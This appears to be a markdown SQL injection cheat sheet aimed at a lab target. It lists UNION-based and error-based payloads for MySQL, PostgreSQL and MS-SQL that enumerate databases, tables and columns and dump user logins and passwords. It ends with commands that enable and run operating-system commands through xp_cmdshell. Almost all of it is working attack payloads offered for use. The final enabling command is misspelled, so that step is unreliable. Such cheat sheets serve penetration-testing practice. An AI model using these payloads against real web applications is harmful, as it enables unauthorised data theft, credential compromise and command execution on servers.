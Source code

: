 # SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://192.168.1.104/Less-1/?id=5'`

### Fuzzing

Sorting columns to find maximum column:

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

> Until it stop returning errors.

---

### Finding what column is injectable

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---

#### Finding version

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s


#### Finding database name

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**


#### Finding usernames logged in

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**


#### Finding databases

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**


#### Finding table names from a database

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**


#### Finding column names from a table

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

In one query:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> Remember to change **dbname** and **tablename** accordingly with the given situation.
> After each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample.

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> After each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample.

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> You need yo be `sa` user.

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`
